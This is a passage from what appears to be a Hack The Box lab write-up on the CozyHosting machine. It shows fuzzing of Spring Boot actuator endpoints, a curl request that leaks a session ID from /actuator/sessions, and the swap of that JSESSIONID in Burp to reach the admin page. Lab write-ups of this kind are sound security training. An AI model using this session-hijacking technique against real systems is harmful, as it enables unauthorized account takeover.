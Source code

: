```console
    * FUZZ: actuator/health

[Status: 200, Size: 9938, Words: 108, Lines: 1, Duration: 468ms]
| URL | http://cozyhosting.htb/actuator/mappings
    * FUZZ: actuator/mappings

[Status: 200, Size: 127224, Words: 542, Lines: 1, Duration: 153ms]
| URL | http://cozyhosting.htb/actuator/beans
    * FUZZ: actuator/beans

:: Progress: [2565/2565] :: Job [1/1] :: 123 req/sec :: Duration: [0:00:13] :: Errors: 0 ::
```

Here's some interesting session info:

```text
$ curl http://cozyhosting.htb/actuator/sessions
{"467374C7202E01F43878D270BD2FC230":"kanderson"}
```

Maybe that's a session cookie?

## Exploitation

Using the session info above, I fire up Burp, turn on its proxy, and visit the `/admin` page. I replace the `JSESSIONID` value with the string I found above:

![](_/htb-cozyhosting-20231002-1.png)
